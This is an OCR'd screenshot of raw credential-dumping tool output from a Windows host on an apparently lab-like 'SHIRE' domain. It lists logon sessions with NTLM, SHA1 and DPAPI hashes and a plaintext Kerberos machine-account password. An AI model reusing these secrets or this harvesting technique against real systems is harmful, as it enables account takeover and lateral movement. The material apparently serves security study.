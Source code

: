 ```
	ssp :	
	credman :	

Authentication Id : 0 ; 84172686 (00000000:05045f8e)
Session           : Interactive from 2
User Name         : Mmidge
Domain            : SHIRE
Logon Server      : HFDC01
Logon Time        : 3/19/2019 11:40:04 AM
SID               : S-1-5-21-2511471446-1103646877-3980648787-1119
	msv :	
	 [00000003] Primary
	 * Username : Mmidge
	 * Domain   : SHIRE
	 * NTLM     : b415baa073a14f81f8c89a2a384f4a68
	 * SHA1     : 85e07a118d7d6f0841ae1fa5061e4bbdfa24d3a7
	 * DPAPI    : 9375ed71838555731c26915707be9807
	tspkg :	
	wdigest :	
	 * Username : Mmidge
	 * Domain   : SHIRE
	 * Password : (null)
	kerberos :	
	 * Username : Mmidge
	 * Domain   : SHIRE.COM
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 84135757 (00000000:0503cf4d)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/19/2019 11:39:48 AM
SID               : S-1-5-90-0-2
	msv :	
	 [00000003] Primary
	 * Username : IT001$
	 * Domain   : SHIRE
	 * NTLM     : 5c03a8bf5d1c76899fbd1ee4178574b8
	 * SHA1     : 1bafcdcc855ae86e06ac39b278243a7990dcb493
	tspkg :	
	wdigest :	
	 * Username : IT001$
	 * Domain   : SHIRE
	 * Password : (null)
	kerberos :	
	 * Username : IT001$
	 * Domain   : shire.com
	 * Password : dFK-5\;zQ5LfJu.+,?sywo9AfG;g_z0'bfgx1Ce]^lNE&mZS;B-OEKK^1[E]+4bKA$WgCj 0f.*bhGdg=0KeSK' H*VY9l!@4ooDV$]$2yM`j/jXEKCp]KMZ
	ssp :	
	credman :	

Authentication Id : 0 ; 84135694 (00000000:0503cf0e)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/19/2019 11:39:48 AM
SID               : S-1-5-90-0-2
	msv :	
```